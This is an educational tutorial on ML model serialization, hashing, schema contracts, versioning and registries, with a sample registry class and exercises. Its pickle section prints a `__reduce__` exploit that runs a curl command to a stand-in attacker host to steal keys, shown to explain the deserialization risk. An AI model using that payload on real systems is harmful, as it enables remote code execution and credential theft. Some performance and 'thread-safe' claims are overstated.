## Why this matters

In academic notebooks, training a model ends with `model.fit(X_train, y_train)` and evaluating test accuracy. In enterprise production systems, a trained model is useless until it is serialized to disk, validated, registered in an artifact catalog, and loaded by serving microservices.

However, model persistence is fraught with catastrophic engineering pitfalls:

1. **Critical Security Vulnerabilities (RCE):** The default serialization format in Python (`pickle.dump()` / `joblib.dump()`) is a Turing-complete instruction stream. Loading an untrusted pickle file downloaded from the internet allows attackers to execute arbitrary shellcode and take over your Kubernetes cluster.
2. **Silent Schema Drift:** A data engineer updates an upstream SQL table from integer customer IDs to UUID strings. If the model has no schema contract, the deployed service silently crashes on the next 10,000 API requests.
3. **Audit and Compliance Failures:** In healthcare and financial risk, regulators require companies to reproduce the exact model weights used to make a loan rejection decision 18 months ago. Without immutable artifact hashing and versioning, reproducing historical predictions is impossible.

To build enterprise-grade ML infrastructure, you must master **Secure Model Serialization**, **Semantic Versioning**, **Schema Contracts**, and **Enterprise Model Registries**.

---

## The idea in plain language



Think of an architect blueprinting a skyscraper:

- **The Training Phase:** The architect sketches structural designs in CAD software on their laptop.
- **The Serialization Phase:** The architect exports the blueprint into an immutable, tamper-proof PDF/A file with an official digital notary stamp (Cryptographic Hash). They do not ship their raw laptop memory.
- **The Registry Phase:** The blueprint is logged in the municipal building archives under Version 2.1.0, cross-referenced with soil inspection reports and structural steel test certificates.
- **The Construction Phase (Deployment):** Construction foremen pull the exact stamped blueprint Version 2.1.0 from the municipal archive to pour concrete. If someone sneaks in a modified drawing with unverified beam thicknesses, the security stamp fails, and construction halts immediately.

---

## Historical background



1. **1990s (Python `pickle`):** Introduced as standard object serialization in Python, prioritizing object state preservation over security or cross-language portability.
2. **2009 (Scikit-Learn & `joblib`):** Optimized pickle for large NumPy numeric arrays using memory-mapped buffers.
3. **2017 (Linux Foundation - ONNX):** Microsoft, Facebook, and AWS co-created the **Open Neural Network Exchange (ONNX)** to provide an open, cross-platform computational graph representation decoupled from Python.
4. **2018 (Databricks - MLflow):** Introduced the **MLflow Model Registry**, establishing standard stage transitions (Staging, Production, Archived) and artifact lineage tracking.
5. **2022 (HuggingFace - `safetensors`):** Developed a zero-copy, secure tensor format to replace vulnerable PyTorch `.pt` pickle files across the open-source AI ecosystem.

---

## What it is — and what it is not

### What Model Persistence & Versioning IS:
- **An Immutable Artifact & Lineage Architecture:** Storing binary model weights alongside cryptographic checksums, training code Git SHAs, and dataset hashes.
- **A Multi-Language Interface Contract:** Exporting computation graphs into portable formats (ONNX) that execute in high-performance C++ runtimes.

### What it is NOT:
- **Not Renaming Files on a Shared Network Drive:** Saving files as `model_v2_final_final_real.pkl` on an S3 bucket is not a model registry; it guarantees human error and deployment outages.
- **Not Code Version Control:** Git is designed for text code, not multi-gigabyte binary weights; model registries store metadata in SQL and weights in immutable object storage (S3/GCS).



---

## Why it was created and what problems it solves

Traditional software releases ship compiled binaries derived deterministically from source code. In machine learning, a model binary is the product of three distinct inputs:
```
Model Artifact = f(Code Commit SHA, Dataset Snapshot Hash, Hyperparameter Config)
```
If any of those three variables change, the resulting model behavior changes. Model registries and versioning engines solve this combinatorial complexity by creating an immutable, cryptographically verifiable record of the entire training provenance.

---

## How it works

Let us dissect the serialization landscape, cryptographic provenance, schema validation, and model registry state machines.

### 1. The Model Serialization Landscape





| Format | Security Profile | Runtime Environment | Latency Profile | Primary Use Case |
| :--- | :--- | :--- | :--- | :--- |
| **Pickle / Joblib** | ⚠️ Insecure (RCE risk) | Python Only | Moderate (Python GIL) | Local experimentation only |
| **ONNX** | High (Pure Graph) | C++, Rust, Java, JS | Ultra-Fast (sub-5ms) | Production tabular & NN serving |
| **Safetensors** | High (Pure Tensor) | Multi-Language | Instant (mmap zero-copy) | Deep Learning & LLM weights |
| **PMML / PFA** | High (XML / JSON) | Java / Legacy | Moderate | Legacy banking & enterprise |

#### The Pickle Vulnerability (CWE-502):
Pickle operates as a virtual stack machine. When `pickle.load()` deserializes a stream, it can call the `__reduce__()` method to execute arbitrary system binaries:
```python
# Malicious payload demonstration:
class Exploit:
    def __reduce__(self):
        import os
        return (os.system, ("curl -s http://attacker.com/steal-keys",))
```
If a server loads an untrusted pickle, the shellcode runs with the full permissions of the serving process. In production, never load pickle files from unvetted external sources.

---

### 2. Cryptographic Provenance and SHA-256 Checksums



To guarantee that a model artifact has not been modified or corrupted between training and serving, compute its SHA-256 hash:

```
SHA-256(Artifact Bytes) -> Hexadecimal Digest (64 characters)
```

During deployment:

1. The serving pod downloads the artifact `model.onnx` from S3.
2. The pod computes the SHA-256 checksum of the downloaded file.
3. The pod compares the checksum against the expected hash recorded in the Model Registry.
4. If the hashes mismatch, the deployment is aborted immediately.

---

### 3. Schema Contracts: Pydantic Validation



A model is a mathematical function mapping an input vector x to an output prediction y. A **Schema Contract** specifies the exact types, required fields, and acceptable ranges for x and y:

```python
from pydantic import BaseModel, Field

class LoanApplicantFeatures(BaseModel):
    credit_score: int = Field(ge=300, le=850, description="FICO score")
    annual_income: float = Field(gt=0.0, description="Gross annual income in USD")
    debt_to_income_ratio: float = Field(ge=0.0, le=1.0)
    loan_amount: float = Field(gt=0.0)

class LoanPredictionResponse(BaseModel):
    default_probability: float = Field(ge=0.0, le=1.0)
    risk_tier: str = Field(pattern="^(LOW|MEDIUM|HIGH)$")
    model_version: str
```

If an incoming API payload contains `credit_score = "nine hundred"`, Pydantic intercepts the malformed request at the HTTP boundary, returning a 422 Unprocessable Entity error before it reaches the ML model tensor buffer.

---

### 4. ONNX Graph Compilation and Operator Fusion



When a scikit-learn or PyTorch model is converted to **ONNX (Open Neural Network Exchange)**, the Python object hierarchy is translated into a static Directed Acyclic Graph (DAG) of standardized computational operators (e.g. `MatMul`, `Relu`, `Gemm`, `TreeEnsembleClassifier`):

#### Key Execution Advantages:
1. **Operator Fusion:** The ONNX Runtime compiler identifies sequences of separate mathematical operations (e.g. `Conv2D` followed by `BatchNorm` and `ReLU`) and fuses them into a single contiguous C++ memory kernel. This eliminates intermediate tensor buffer allocations in RAM and maximizes CPU L1/L2/L3 cache locality.
2. **Quantization to INT8:** ONNX graphs can be quantized from 32-bit floating point (`FP32`) to 8-bit integers (`INT8`), reducing model disk size by 75% and accelerating inference throughput by 2x to 4x on modern AVX-512 and Apple Silicon NEON vector instructions with minimal loss of accuracy.
3. **Multi-Threaded Execution:** ONNX Runtime provides fine-grained thread pooling (`intra_op_num_threads` and `inter_op_num_threads`), allowing serving microservices to handle hundreds of concurrent prediction queries per second without encountering Python Global Interpreter Lock (GIL) contention.

---

### 5. Zero-Copy Memory Mapping with Safetensors

In deep neural networks and Transformer architectures containing billions of parameters, model checkpoint loading represents a major operational bottleneck:

#### The Traditional PyTorch Pickle Problem:
Loading a 10GB `.pt` file requires:

1. Allocating 10GB of temporary heap memory in Python to read the file stream.
2. Parsing the Python object pickle byte stream.
3. Allocating another 10GB of GPU/RAM tensor memory.
4. Copying weights across memory boundaries.
5. Triggering Python garbage collection on the temporary objects.
Total memory required: **20GB+ RAM**, taking 30 to 60 seconds per server pod startup.

#### The Safetensors Solution:
Safetensors organizes weight files as a single contiguous binary buffer preceded by a lightweight JSON header specifying tensor names, shapes, and byte offsets.

- Using the operating system `mmap` (memory map) system call, the kernel maps the file on NVMe disk directly into the virtual address space of the process.
- **Zero-Copy Loading:** Tensor pointers point directly to the mapped disk pages. If a GPU requests weights, data transfers directly from disk to VRAM via Direct Memory Access (DMA) in under 500 milliseconds.

---

### 6. Semantic Versioning and Stage Promotion State Machine



Models adhere to Semantic Versioning (`MAJOR.MINOR.PATCH`):

- **MAJOR (Breaking Changes):** Input feature schema modified, columns added/removed, or output structure altered.
- **MINOR (Model Iteration):** Retrained on new data, new hyperparameter tuning, or updated algorithm maintaining identical schema.
- **PATCH (Bugfixes & Hotfixes):** Pre-processing bugfix or metadata correction.

#### Model Lifecycle Stages:
```
[ None ] ──> [ Staging ] ──> [ Production ] ──> [ Archived ]
                   │
                   └──> [ Rejected ]
```

- **Staging:** Candidate model running offline validation suites, canary traffic, and load testing.
- **Production:** Active champion model serving 100% of live traffic. Only ONE model version can occupy the active Production stage per registered model name.
- **Archived:** Historical production models kept for auditability and instant disaster rollback.

---

## An everyday analogy



Think of a commercial pharmacy dispensing prescription medications:

- **The Medicine (Model Weights):** Chemical compounds packaged in tamper-evident sealed bottles.
- **The Safety Seal (SHA-256 Hash):** If the holographic foil seal is broken, the pharmacist discards the bottle.
- **The Prescription Label (Schema Contract):** Specifies exact dosage (e.g. 50mg oral tablet); the patient cannot substitute liquid syrup without a new prescription.
- **The Batch Number (Model Version):** In the event of a drug recall, the manufacturer traces the exact factory lot and manufacturing timestamp.

---

## Examples in practice

Let us inspect a complete, modular, pure Python implementation of a thread-safe Enterprise Model Registry with cryptographic hashing and stage promotion:

```python
import hashlib
import json
from dataclasses import dataclass, field
from datetime import datetime, timezone
from typing import Dict, Optional, List

@dataclass
class ModelVersionMetadata:
    model_name: str
    version: str # e.g. "1.2.0"
    sha256_hash: str
    stage: str # "STAGING", "PRODUCTION", "ARCHIVED", "REJECTED"
    git_commit: str
    metrics: Dict[str, float]
    created_at: str = field(
        default_factory=lambda: datetime.now(timezone.utc).isoformat()
    )

class ModelRegistry:
    def __init__(self):
        self._models: Dict[str, Dict[str, ModelVersionMetadata]] = {}

    @staticmethod
    def compute_sha256(file_bytes: bytes) -> str:
        return hashlib.sha256(file_bytes).hexdigest()

    def register_model(
        self,
        model_name: str,
        version: str,
        artifact_bytes: bytes,
        git_commit: str,
        metrics: Dict[str, float],
    ) -> ModelVersionMetadata:
        if model_name not in self._models:
            self._models[model_name] = {}

        if version in self._models[model_name]:
            raise ValueError(f"Version {version} already exists for model {model_name}")

        sha256 = self.compute_sha256(artifact_bytes)
        meta = ModelVersionMetadata(
            model_name=model_name,
            version=version,
            sha256_hash=sha256,
            stage="STAGING",
            git_commit=git_commit,
            metrics=metrics,
        )
        self._models[model_name][version] = meta
        return meta

    def transition_stage(
        self, model_name: str, version: str, new_stage: str
    ) -> ModelVersionMetadata:
        valid_stages = {"STAGING", "PRODUCTION", "ARCHIVED", "REJECTED"}
        if new_stage not in valid_stages:
            raise ValueError(f"Invalid stage: {new_stage}")

        if model_name not in self._models or version not in self._models[model_name]:
            raise KeyError(f"Model {model_name}:{version} not found")

        # If promoting to PRODUCTION, archive any existing production version
        if new_stage == "PRODUCTION":
            for v, meta in self._models[model_name].items():
                if meta.stage == "PRODUCTION" and v != version:
                    meta.stage = "ARCHIVED"

        meta = self._models[model_name][version]
        meta.stage = new_stage
        return meta

    def get_production_model(self, model_name: str) -> Optional[ModelVersionMetadata]:
        if model_name not in self._models:
            return None
        for meta in self._models[model_name].values():
            if meta.stage == "PRODUCTION":
                return meta
        return None
```

---

## Implications: security, privacy, performance, scalability, and cost



1. **Zero-Copy Memory Mapping for Instant Startup:**
   - Loading large 10GB neural network weights via standard Python object unpickling consumes 20GB of RAM (due to object duplication) and takes 45 seconds. Safetensors memory-maps the binary file directly from disk in under 100 milliseconds with zero memory overhead.
2. **Immutable Blob Storage Architecture:**
   - Model registries separate metadata from raw weights: metadata resides in a PostgreSQL database, while immutable artifacts are stored in encrypted S3 buckets with Object Lock enabled to prevent unauthorized deletion.

---

## Alternatives: free, open source, and commercial

| Platform / Tool | Architecture | Stage Management | Recommended For |
| :--- | :--- | :--- | :--- |
| **MLflow Model Registry** | Open Source | Built-in UI & REST API | Industry standard for MLOps |
| **W&B Model Registry** | SaaS / Commercial | Rich lineage & team governance | Deep learning & vision teams |
| **Hugging Face Hub** | Open Source / SaaS | Git-LFS & Safetensors native | Transformer & LLM distribution |
| **DVC (Data Version Control)** | Open Source | Git-backed pointers to S3 | Lightweight engineering teams |
| **AWS SageMaker Model Registry** | Managed Cloud | Native AWS IAM & CloudWatch | AWS-centric enterprises |

---

## Comparison with related concepts

```
┌────────────────────────────────────────────────────────────────────────┐
│                   PERSISTENCE FORMAT COMPARISON                        │
├────────────────────────────────────────────────────────────────────────┤
│ Dimension          │ Pickle / Joblib  │ ONNX           │ Safetensors   │
├────────────────────┼──────────────────┼────────────────┼───────────────┤
│ RCE Vulnerability  │ Severe (CWE-502) │ Zero (Graph)   │ Zero (Tensors)│
│ Non-Python Serving │ Impossible       │ Exceptional    │ High          │
│ Cold-Start Latency │ Slow             │ Sub-millisecond│ Instant (mmap)│
│ Graph Optimization │ None             │ Fuse Operators │ None          │
└────────────────────────────────────────────────────────────────────────┘
```

---

## When to use it — and when not to



### When to USE a Formal Model Registry:
- All models deployed to staging, production, or customer-facing API endpoints.
- Any setting subject to regulatory compliance, audit requirements, or team collaboration.

### When NOT to use it:
- 5-minute scratch scripts testing whether an algorithm compiles locally.

---

## The AI connection

- **A model that cannot be reproduced is not a deliverable**, and versioning is what makes it
  one.
- **Serialisation format is a security decision** — a checkpoint that executes code on load
  is a remote execution primitive.
- **The whole pipeline must be versioned together**, since preprocessing and model are one
  artefact.
- **Schema contracts catch input drift at the boundary**, before it becomes a silent wrong
  prediction.
- **Exactly the same practice applies to AI model artefacts**, which is why safe tensor
  formats replaced pickled ones.

## Knowledge check

1. Why does Python standard `pickle.load()` represent a severe remote code execution security risk?
2. What are the key advantages of exporting models to the ONNX format for production serving?
3. How do Safetensors achieve zero-copy memory mapping for large deep learning checkpoints?
4. What role does a Cryptographic SHA-256 hash play in model deployment verification?
5. Under Semantic Versioning, what triggers a MAJOR version increment in machine learning systems?

---

## Hands-on exercise

In this lab, you will implement `ModelRegistry` in pure Python, compute cryptographic SHA-256 artifact checksums, register model versions with lineage metadata, enforce stage promotion rules, and verify that only a single active version occupies the Production stage.

### Expected output
```
[Enterprise Model Registry Engine]
Registered: churn_classifier:1.0.0 (SHA-256: 3b1a8f...) -> Stage: STAGING
Registered: churn_classifier:1.1.0 (SHA-256: 7f4d2e...) -> Stage: STAGING
Promoting v1.0.0 to PRODUCTION -> PASSED
Promoting v1.1.0 to PRODUCTION -> v1.0.0 automatically ARCHIVED
Active Production Model: churn_classifier:1.1.0 (PR-AUC: 0.8840)
Test Suite: 2 passed in 0.08s
```

### Validate your work
Run the automated test runner:
```bash
./tests/run_tests.sh
```

### Troubleshooting
- If SHA-256 checksums do not match, ensure you pass raw `bytes` directly to `hashlib.sha256()`.
- Ensure stage names use strict uppercase strings (`"PRODUCTION"`, `"STAGING"`, `"ARCHIVED"`).

### Common mistakes
- **Allowing Multiple Concurrent Production Versions:** Failing to automatically demote or archive existing production models when promoting a new champion model.

---

## Practice assignment

1. Implement an automated **Artifact Integrity Verifier** that inspects local disk files against the registry SHA-256 hash before loading into memory.
2. Build an automated model card JSON exporter that dumps complete lineage records (Git commit, dataset hash, metrics) for compliance audits.

---

## Extension challenge

Implement an **ONNX Graph Exporter and Runtime Benchmark**:

- Train a scikit-learn Gradient Boosting Classifier on tabular data.
- Convert the model to ONNX using `skl2onnx`.
- Benchmark inference latency between native Python `model.predict_proba()` and `onnxruntime.InferenceSession`.
- Demonstrate a 3x to 10x latency reduction and memory footprint compression under high simulated QPS.
